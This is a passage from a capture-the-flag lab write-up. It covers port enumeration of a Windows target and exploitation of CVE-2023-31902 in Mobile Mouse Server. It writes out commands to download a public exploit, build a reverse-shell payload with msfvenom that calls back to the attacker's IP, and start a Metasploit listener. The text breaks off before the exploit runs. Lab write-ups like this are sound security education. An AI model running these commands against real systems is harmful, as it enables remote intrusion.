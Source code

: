 The important open ports are:

- **135** (`WINRPC`)
- **139** / **445** (`SMB`)
- **3389** (`RDP`)
- **5985** (`WINRM`)
- **9099** (`HTTP`)

### Mobile Mouse RCE

Visiting `http://10.10.154.124:9099/`, we get a simple success message.

![Web 9099 Index](web_9099_index.webp){: width="1200" height="800" }

`nmap` already informed us that the web server on this port is `Mobile Mouse Server`. We can also confirm this by manually checking the headers using `curl`.

```console
$ curl -v 'http://10.10.154.124:9099/'
...
< HTTP/1.0 200 OK
< Server: Mobile Mouse Server
< Content-Type: text/html
< Content-Length: 326
...
```

Searching for vulnerabilities in the server, we come across `CVE-2023-31902`, a remote code execution (**RCE**) vulnerability. The exploit for this can be found in [this GitHub repository](https://github.com/blue0x1/mobilemouse-exploit). The room instructs us to use the exploit that utilizes `SMB` instead of `HTTP`, so we will use the `CVE-2023-31902-v2.py` script.

```console
$ wget https://raw.githubusercontent.com/blue0x1/mobilemouse-exploit/refs/heads/main/CVE-2023-31902-v2.py
```
{: .wrap }

Looking at the exploit script, it expects us to supply the target, our own machine's IP address, and an executable to run on the target. For the executable, the room instructs us to use a `Windows stageless reverse TCP (x64) shell` named `shell.exe`. Let's use `msfvenom` to generate it.

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

We can use the `multi/handler` module from `metasploit` to catch our reverse shell, so we will start that as well.

```console
$ msfconsole
...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.72.22
LHOST => 10.11.72.22
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.72.22:443
```